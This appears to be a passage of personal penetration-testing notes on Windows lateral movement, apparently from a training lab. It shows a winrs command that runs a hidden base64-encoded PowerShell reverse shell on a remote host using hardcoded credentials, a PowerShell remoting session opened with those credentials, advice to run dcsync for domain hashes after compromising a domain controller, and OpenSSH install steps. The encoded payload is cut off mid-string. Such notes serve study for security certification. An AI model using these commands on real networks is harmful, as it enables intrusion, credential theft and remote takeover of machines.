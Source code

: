 ```bash
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

```bash
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available

PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```

#### Amazing Enumeration Cheatsheet

https://wadcoms.github.io

#### After You Compromise DC

Do dcsync to get hashes of all of the domain controllers. Be persistant. 

#### Installing OpenSSH

Run as admin in powershell:

Check if OpenSSH is available by running the following command:
```bash
Get-WindowsCapability -Online | Where-Object Name -like 'OpenSSH*'
```

Install the OpenSSH Server component by running the following command:

```bash
Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0
```

#### RDP From PowerShell


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami